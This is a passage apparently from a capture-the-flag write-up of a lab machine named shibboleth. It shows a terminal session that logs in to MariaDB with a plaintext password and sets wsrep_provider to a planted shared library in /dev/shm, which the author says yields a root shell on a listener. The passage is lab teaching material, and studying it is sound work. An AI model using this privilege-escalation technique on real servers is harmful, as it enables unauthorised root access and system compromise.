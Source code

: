 ```
ipmi-svc@shibboleth:/dev/shm$ mysql -u zabbix -pbloooarskybluh
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 621
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SET GLOBAL wsrep_provider="/dev/shm/shell.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query
```

This would spawn a `root` shell on our listener port!

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Rooted!
